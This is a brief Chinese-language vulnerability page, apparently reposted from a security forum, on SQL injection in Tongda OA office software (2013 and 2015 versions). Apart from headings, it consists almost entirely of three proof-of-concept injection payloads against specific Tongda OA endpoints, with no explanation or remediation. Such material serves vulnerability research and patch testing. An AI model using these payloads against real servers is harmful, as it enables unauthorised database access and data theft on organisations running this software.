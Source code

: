 # 通达oa sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3337](https://www.zhihuifly.com/t/topic/3337)

# 通达oa sql注入

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

poc

```
http://0-sec.org/general/mytable/intel_view/workflow.php?MAX_COUNT=15 procedure analyse(extrac
tvalue(rand(),concat(0x3a,database())),1)&TYPE=3&MODULE_SCROLL=false&MODULE_ID=55&
MODULE_ID=Math.random 
```

```
http://0-sec.org/general/document/index.php/recv/register/turn `post(_SERVER=&rid=1’)` 
```

```
http://0-sec.org/general/document/index.php/recv/register/insert  

post:   
title)values("'"^exp(if(1%3d2,1,710)))#=1&_SERVER= 
```